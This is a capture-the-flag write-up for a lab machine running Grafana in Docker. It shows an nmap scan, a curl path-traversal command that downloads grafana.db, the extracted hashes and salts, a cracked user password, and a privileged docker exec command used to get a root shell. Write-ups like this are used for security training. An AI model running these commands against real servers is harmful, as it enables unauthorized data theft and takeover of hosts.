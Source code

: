 #Docker
Scan :
```sh
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a79f80cce39c3fc4d69de8efb377142b (RSA)
|   256 f5ab5249cacfddc6cd61bdbdefbf18b4 (ECDSA)
|_  256 5e63f3d67f5c89df77eb2aac3154f8b2 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sun, 21 Jul 2024 19:25:24 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sun, 21 Jul 2024 19:24:54 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sun, 21 Jul 2024 19:24:59 GMT
|_    Content-Length: 0
```

Cve Path traversal --> 
```sh
curl 'http://10.10.81.63:3000/public/plugins/barchart/../../../../../../../../../var/lib/grafana/grafana.db' --path-as-is --output grafana.db
```

```sh
Boris :

dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8

salt :LCBhdtJWjl

rands :mYl941ma8w

---------------------------------------------------------------------------------

Admin : 

7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8

salt : YObSoLj55S

rands : hLLY6QQ4Y6
```

- I type : `convert grafana hash to hashcat format` and got a script that does the job :
https://github.com/iamaldi/grafana2hashcat
- Creds :
 ```sh
boris:beautiful1
```
User: VL{fbc4248a6ec4f7936b92ec76ad0cb654}

- We can run docker exec as sudo , as we can imagine grafana is running in a docker so we can basically grab thanks to the lfi the container id and try to grab a shell as root  with all privilege . We can simply mnt the main disk on the docker and read the flag .

- Here is the command : 
```sh
sudo /snap/bin/docker exec --privileged --user 0 -i -t e6ff5b1cbc85 /bin/bash
```

- Next time don't forget to check the docs

https://github.com/ivanversluis/pentest-hacktricks/blob/master/linux-unix/privilege-escalation/docker-breakout.md
- Root : VL{37c930a3b8b53457d080b0a6f033bc16}
